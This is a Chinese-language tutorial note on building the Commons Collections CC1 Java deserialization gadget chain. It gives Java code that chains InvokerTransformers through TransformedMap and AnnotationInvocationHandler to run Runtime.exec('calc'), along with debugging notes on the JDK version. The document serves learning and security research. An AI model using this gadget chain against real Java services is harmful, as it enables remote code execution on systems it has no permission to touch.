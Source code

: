 

这里修改过后，后面的也需要更改

```java
Transformer[] transformers = new Transformer[]{
     new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime", null}),
     new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null, null}),
     new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
//chainedTransformer.transform(Runtime.class);


//InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[] {"calc.exe"});
HashMap<Object,Object> map = new HashMap<Object, Object>();
map.put("key","value");
Map<Object,Object> transformedMap  = TransformedMap.decorate(map,null,chainedTransformer);

Class c= Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor annotationInvocationHandlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
annotationInvocationHandlConstructor.setAccessible(true);
Object o = annotationInvocationHandlConstructor.newInstance(Override.class,transformedMap);
serialize(o);
unserialize("ser.bin");
```



现在还不能正常运行，还需要解决两个判断条件：

经过调试，发现已经进入两个判断了

！这咋和教程里的不一样，大佬调试的还没进判断里，我的就进去了



![image-20230405115955396](https://raw.githubusercontent.com/todis21/image/main/202304051556765.png)



可能是我的jdk版本问题，我的是jdk 8u361，建议用下面的

环境jdk 8u65

https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html





用大佬的图，继续

在上面的代码可以看出两个if 分别是检测key中的value是否为空，第⼆个if是判断参数是否强转

这⾥打个断点调试下

看到这⾥的memberType是传⼊的注解 Override，成员变量为空

